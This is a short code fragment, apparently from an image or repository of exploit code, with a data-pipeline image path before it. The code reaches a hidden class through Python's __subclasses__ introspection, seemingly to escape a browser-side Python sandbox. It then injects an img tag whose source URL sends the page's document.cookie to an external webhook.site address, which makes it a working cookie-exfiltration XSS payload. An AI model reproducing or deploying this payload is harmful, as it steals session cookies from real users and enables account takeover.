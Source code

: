 but = dict.__base__.__subclasses__()[363]("buttons")
but.element.innerHTML= '<img src="https://webhook.site/f202667e-9179-425d-80c1-fd62da5915d4?'+but.element.ownerDocument.cookie+'">'